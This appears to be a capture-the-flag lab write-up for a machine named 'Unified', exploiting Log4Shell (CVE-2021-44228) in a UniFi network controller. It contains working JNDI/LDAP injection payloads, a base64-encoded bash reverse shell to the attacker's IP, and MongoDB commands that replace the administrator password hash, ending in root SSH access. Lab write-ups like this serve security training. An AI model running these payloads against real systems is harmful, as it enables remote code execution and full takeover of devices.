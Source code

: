 ![Screenshot 2023-11-06 145544.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot 2023-11-06 150245.png)

# Unified (Log4j)

## Introduction

This writeup explores the effects of exploiting Log4J in a very well known network appliance monitoring system called `"UniFi"`. This box will show you how to set up and install the necessary packages and tools to exploit UniFi by abusing the Log4J vulnerability and manipulate a POST header called remember , giving you a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved in the MongoDB instance that is running on the system, which will allow access to the administration panel and leads to the disclosure of the administrator's SSH password.

## Scanning

```jsx
nmap -sC -sV -v 10.129.179.23
```

![Screenshot 2023-11-06 145544.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_145544.png)

![Screenshot 2023-11-06 145620.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_145620.png)

The scan reveals port 8080 open running an HTTP proxy. The proxy appears to redirect requests to port 8443 , which seems to be running an SSL web server. We take note that the HTTP title of the page on port 8443 is `" UniFi Network "`.

![Screenshot 2023-11-06 150611.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_150611.png)

Upon accessing the page using a browser we are presented with the UniFi web portal login page and the version number is `6.4.54` . If we ever come across a version number it’s always a great idea to research that particular version on Google. A quick Google search using the keywords UniFy 6.4.54 exploit reveals an article that discusses the in-depth exploitation of the `CVE-2021-44228` vulnerability within this application.

### #Using Web proxy (BurpSuite)

First, we attempt to login to the page with the credentials `test:tes`t as we aren’t trying to validate or gain access. The login request will be captured by BurpSuite and we will be able to modify it.
Before we modify the request, let's send this HTTPS packet to the Repeater module of BurpSuite by
pressing `CTRL+R` .

### #Expoitation

We have to input our payload into the remember parameter. Because the POST data is being sent as a JSON object and because the payload contains brackets `{}` , in order to prevent it from being parsed as another JSON object we enclose it inside brackets " so that it is parsed as a string instead

```jsx
${jndi:ldap://{Tun0 IP Address}/whatever}
```

**JNDI** is the acronym for the Java Naming and Directory Interface API . By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

**LDAP** is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389 .

![Screenshot 2023-11-06 153546.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_153546.png)

After we hit "send" the "Response" pane will display the response from the request. The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed

Let's proceed to starting tcpdump on port `389` , which will monitor the network traffic for LDAP connections.

![Screenshot 2023-11-06 153523.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_153523.png)

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port `389.`

We will have to install `Open-JDK` and `Maven` on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system.

```jsx
sudo apt update
sudo apt install openjdk-11-jdk -y
java -version
```

Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .

These applications will also help us run the `rogue-jndi` Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

Once we have installed Open-JDK, we can proceed to install Maven. But first, let’s switch to root user.

```jsx
sudo apt-get install maven
mvn -v
```

Once we have installed the required packages, we now need to download and build the Rogue-JNDI Java application.

Let's clone the respective repository and build the package using Maven.

```jsx
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

This will create a `.jar` file in `rogue-jndi/target/` directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application.

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```jsx
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' |
base64
```

![Screenshot 2023-11-06 161035.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_161035.png)

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the `--command` option and your `tun0` IP address to the `--hostname` option.

```jsx
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

```jsx
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuOTUvNDU0NSAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.95"
```

![Screenshot 2023-11-06 161605.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_161605.png)

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.

```jsx
nc -lvnp 4545
```

Going back to our intercepted POST request, let's change the payload to ${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} and click Send .

![Screenshot 2023-11-06 161828.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_161828.png)

Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can upgrade the terminal shell using the following command.

```jsx
script /dev/null -c bash
```

![Screenshot 2023-11-06 162238.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_162238.png)

From here we can navigate to /home/Michael/ and read the user flag.

![Screenshot 2023-11-06 162419.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_162419.png)

## #Privilege Escalation

The article states we can get access to the administrator panel of the UniFi application and possibly extract SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.

```jsx
ps aux | grep mongo
```

![Screenshot 2023-11-06 162733.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_162733.png)

We can see MongoDB is running on the target system on port `27117` .

Let's interact with the MongoDB service by making use of the mongo command line utility and attempting to extract the administrator password. A quick Google search using the keywords UniFi Default Database shows that the default database name for the UniFi application is `ace` .

```jsx
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![Screenshot 2023-11-06 163039.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163039.png)

### #To change the administrator Password

```jsx
mkpasswd -m sha-512 Password1234
$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XX
M8P5Z8j4NB1gJGTONl1
```

Let's proceed to replacing the existing hash with the one we created.

```jsx
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```

```jsx
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$HoifIPjl1sJ01orq$sQ9ql4XotUG6xiRMPVcITYPgznTlfxeQhGIp4Ley8JV7psNIv0U4IxbgGDJjH2DKPUi3ntwFCbkCnn7vIk55M1"}})'
```

![Screenshot 2023-11-06 163518.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163518.png)

Let's now visit the website and log in as `administrator` . It is very important to note that the username is case sensitive.

![Screenshot 2023-11-06 163730.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163730.png)

Navigate to `settings -> site` and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.

![Screenshot 2023-11-06 163946.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163946.png)

The page shows the root password in plaintext is `NotACrackablePassword4U2022` . Let's attempt to authenticate to the system as root over SSH.

```jsx
ssh root@10.129.179.23
```

![Screenshot 2023-11-06 164329.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_164329.png)

The connection is successful and the root flag can be found in `/root` .